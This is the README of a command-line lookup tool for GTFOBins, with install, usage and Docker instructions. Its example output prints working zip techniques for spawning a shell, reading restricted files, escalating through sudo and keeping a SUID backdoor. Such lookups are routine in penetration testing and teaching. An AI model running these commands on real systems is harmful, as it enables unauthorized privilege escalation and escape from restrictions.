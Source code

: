 # GTFOBins-CLI

`gtfobins-cli` is a command line interface for https://gtfobins.github.io.

This tool is perfect for those who work most of the time with a terminal and need to check if there is a way to escalate privilege using a certain command. Instead of opening the browser, going to https://gtfobins.github.io and looking for the command, `gtfobins-cli` does the same but from the terminal.

## Running `gtfobins-cli`

```console
$ git clone https://github.com/7Rocky/gtfobins-cli
$ cd gtfobins-cli/
$ chmod +x gtfobins-cli.py
```

Now, you can use either `python3 gtfobins-cli.py` or `./gtfobins-cli.py` to execute the tool.

Additionally, you can rename the script to simply `gtfobins-cli` and move it to a directory in your `PATH` environment variable (i.e `/usr/local/bin`), so that `gtfobins-cli` is available as a command at every working directory. Alternatively, you can create a symbolic link inside a directory in the `PATH` to the actual script. 

## Usage of `gtfobins-cli`

As easy as using https://gtfobins.github.io:

```console
$ gtfobins-cli [options] <command>
```

For example, you can read all information about a command:

```console
$ gtfobins-cli.py zip              

zip ==> https://gtfobins.github.io/gtfobins/zip/


Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF


File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

LFILE=file-to-read
TF=$(mktemp -u)
zip $TF $LFILE
unzip -p $TF


Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF


Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via system()-like invocations) it only works on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

sudo install -m =xs $(which zip) .

TF=$(mktemp -u)
./zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF 
```

Or you can try to be more specific:

```console
$ gtfobins-cli --shell zip

zip ==> https://gtfobins.github.io/gtfobins/zip/


Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF
```

```console
$ gtfobins-cli --shell --sudo zip

zip ==> https://gtfobins.github.io/gtfobins/zip/


Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF


Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

## Using `gtfobins-cli` with Docker

There is an image in Docker Hub called `7rocky/gtfobins-cli` to execute `gtfobins-cli` from a Docker container:

```console
$ docker run --rm -it 7rocky/gtfobins-cli [options] <command>
```

If you want to build and run the image locally:

```console
$ cd gtfobins-cli/
$ docker build -t gtfobins-cli .
$ docker run --rm -it gtfobins-cli [options] <command>
```

Hope it is useful! :smile:

